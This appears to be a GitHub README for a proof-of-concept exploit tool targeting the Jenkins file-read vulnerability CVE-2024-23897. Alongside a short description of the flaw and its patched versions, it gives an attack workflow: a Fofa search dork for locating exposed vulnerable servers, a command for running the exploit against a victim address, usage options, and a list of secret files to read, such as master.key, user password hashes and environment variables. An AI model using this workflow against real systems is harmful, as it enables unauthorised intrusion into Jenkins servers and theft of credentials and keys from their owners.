


# Jenkins File Read Vulnerability - CVE-2024-23897

[](https://buymeacoffee.com/verylazytech/extras)
[](https://medium.com/@verylazytech)
[](https://github.com/verylazytech)
[](https://buymeacoffee.com/verylazytech)


CVE-2024-23897 is a critical vulnerability in Jenkins that allows unauthenticated attackers to read arbitrary files on the Jenkins controller's file system. This flaw arises from improper handling of command arguments in the args4j library, specifically in command-line operations where an @ character followed by a file path can lead to unauthorized file content exposure.

This vulnerability poses a significant risk as it can enable attackers to access sensitive information, such as cryptographic keys and configuration files, which may be leveraged for further exploitation, including remote code execution (RCE). The issue is particularly alarming given the widespread use of Jenkins in CI/CD pipelines and the number of exposed Jenkins instances globally.

A security fix addressing this vulnerability has been released in Jenkins versions 2.442 and later, as well as Jenkins LTS version 2.426.3 and later. Users are strongly advised to upgrade their Jenkins installations to mitigate this risk and protect sensitive information.

**Read about it** — [CVE-2024-23897](https://nvd.nist.gov/vuln/detail/CVE-2024-23897)

> **Disclaimer**: This Proof of Concept (POC) is made for educational and ethical testing purposes only. Usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user’s responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

## Getting Started

### Finding Targets

To find potential targets, use Fofa (similar to Shodan.io):

- **Fofa Dork**: header="X-Jenkins: 2.426.2"

Affected Jenkins versions include up to 2.441 and up to 2.426.2 for Jenkins LTS.

Clone the repository:

```bash
git clone https://github.com/verylazytech/CVE-2024-23897
```

Run the Exploit:

```bash
python3 CVE-2024-23897.py -u <Victim_ip:port>
```


Enter the file that you want to read into the shell (this case /etc/passwd):



Some files that could be of interest:
 - `/proc/self/environ` Environmental variables including `JENKINS_HOME`
 - `/proc/self/cmdline` Command-line arguments
 - `/var/jenkins_home/users/users.xml` User account storage locations
 - `/var/jenkins_home/users/<user_directory>/config.xml` User BCrypt password hash
 - `/var/jenkins_home/secrets/master.key` Encryption secret key
 - `/etc/hosts` Linux local-DNS resolution
 - `/etc/passwd` Linux user accounts


## Genreal Usage:

```text
usage: python3 CVE-2024-23897.py [-h] -u URL [-f FILE] [-t TIMEOUT] [-s] [-o] [-p PROXY] [-v]

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Jenkins URL
  -f FILE, --file FILE  File path to read
  -t TIMEOUT, --timeout TIMEOUT
                        Request timeout
  -s, --save            Save file contents
  -o, --overwrite       Overwrite existing files
  -p PROXY, --proxy PROXY
                        HTTP(s) proxy to use when sending requests (i.e. -p http://127.0.0.1:8080)
  -v, --verbose         Verbosity enabled - additional output flag
```
